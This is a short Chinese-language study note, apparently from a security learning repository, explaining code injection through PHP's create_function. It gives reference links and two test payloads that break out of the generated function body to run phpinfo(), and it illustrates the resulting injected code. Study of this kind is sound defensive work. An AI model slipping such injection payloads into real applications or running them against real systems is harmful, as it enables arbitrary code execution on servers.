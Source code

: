 # create_function

### create_function

### 参考文章

- https://secure.php.net/manual/zh/function.create-function.php
- http://www.laruence.com/2010/06/20/1602.html
- https://www.kingkk.com/2018/11/Code-Breaking-Puzzles-%E9%A2%98%E8%A7%A3-%E5%AD%A6%E4%B9%A0%E7%AF%87/#function

### 函数结构

```php
create_function ( string $args , string $code ) : string
```

### 测试

```php
create_function('$a', '}phpinfo();{'); # 执行phpifno()
create_function('$a', '}phpinfo();/*');
```
![](../images/19-7-10_PHP_create_function_1.png)



因为create_function采用拼接的方法构造函数，所以上述过程可以想象成如下：

```php
源代码：
function fT($a) {
  echo "test".$a;
}

注入后代码：
function fT($a) {
  echo "test";}
  phpinfo();/*;
}

*/  ### 这一行是为了关闭上一个注入代码的注释
注入后的代码：
function fT($a) {
  echo "test";}
  phpinfo();{;
}
```